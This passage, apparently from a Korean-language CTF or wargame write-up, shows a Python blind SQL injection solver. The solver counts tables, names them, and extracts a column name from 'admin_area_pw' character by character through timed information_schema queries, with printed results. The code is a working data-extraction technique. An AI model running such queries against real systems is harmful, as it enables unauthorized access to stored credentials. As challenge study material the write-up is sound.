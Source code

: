 ```python
	print("Number of Tables:", table_count)

	table_names_len = self._get_table_name_len(table_count)
	print("Length of Each Tables:", table_names_len)

	table_names = self._get_table_names(table_names_len)
	print("Names of Each Tables:", table_names)

	column_count = self._get_column_count(table_names[0])
	print("Number of Columns of 'admin_area_pw':", column_count)
```

```
# result
Number of Tables: 2
Length of Each Tables: [13, 3]
Names of Each Tables: ['admin_area_pw', 'log']
Number of Columns of 'admin_area_pw': 1
```
테이블에 들어있는 값을 Blind SQL 인젝션 기법으로 알아내려면 우선 해당 테이블이 컬럼을 몇개나 가지고 있는지 알아내야 한다.<br />
이번 함수는 특별한 것 없이 단순히 테이블 'admin_area_pw'에 들어있는 column의 개수를 가져오는 함수이다.<br />

결과를 보면 컬럼 개수가 단 하나 뿐이란 것을 알 수 있다. <br />
다음으로 이 하나의 컬럼이 어떤 이름을 가지고 있는지 알아내야 하는데 한 개라서 추가적인 반복없이 편하게 구할 수 있어서 다행이다.
#### 컬럼의 이름 구하기
```python
def _get_column_name(self, table_name: str) -> str:
	query = f'(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name="{table_name}")'
	column_count = self._query_time(query)

	query = f'(SELECT Length(column_name) FROM information_schema.columns WHERE table_name="{table_name}")'
	column_length = self._query_time(query)

	column_name = ""
	for i in range(1, column_length + 1):
		query = f'(SELECT ascii(substr(column_name, {i}, 1)) FROM information_schema.columns WHERE table_name="{table_name}")'
		column_name += chr(self._query_time(query))
	
	return column_name
	
def solve(self) -> None:
	table_count = self._get_table_count()
	print("Number of Tables:", table_count)

	table_names_len = self._get_table_name_len(table_count)
	print("Length of Each Tables:", table_names_len)

	table_names = self._get_table_names(table_names_len)
	print("Names of Each Tables:", table_names)

	column_name = self._get_column_name(table_names[0])
	print("Name of a column in 'admin_area_pw':", column_name)
```
